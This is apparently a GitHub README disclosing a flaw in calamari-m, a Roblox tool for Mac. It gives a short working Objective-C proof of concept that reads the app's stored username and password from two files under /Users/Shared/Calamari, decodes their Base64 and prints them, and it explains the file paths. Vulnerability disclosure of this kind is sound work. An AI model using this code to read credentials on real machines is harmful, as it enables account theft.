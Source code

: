 # CASteal A.K.A. Pulling a fast one on calamari-m
## CASteal is a proof of concept for a security vulnerability in all versions of calamari-m for roblox
```mm
#import <Foundation/Foundation.h>
int main() {
    printf("Heres ur calamari account\nUsername: %s\nPassword: %s\n",[[[NSString alloc] initWithData:[[NSData alloc] initWithBase64EncodedString:[NSString stringWithContentsOfFile:@"/Users/Shared/Calamari/GY" encoding:NSUTF8StringEncoding error:nil] options:0] encoding:NSUTF8StringEncoding] UTF8String],[[[NSString alloc] initWithData:[[NSData alloc] initWithBase64EncodedString:[NSString stringWithContentsOfFile:@"/Users/Shared/Calamari/NGV" encoding:NSUTF8StringEncoding error:nil] options:0] encoding:NSUTF8StringEncoding] UTF8String]);
}
```
a minified version of the proof of concept is shown above.
how this works:
Calamari (for mac) account cridentials are stored for reuse by the ui and dylib to autheticate your user. 

their paths are /Users/Shared/Calamari/GY for username and /Users/Shared/Calamari/NGV for password. 

however they are only stored in Base64 encoding meaning they can be easily decoded and sent anywhere by a proccess. 

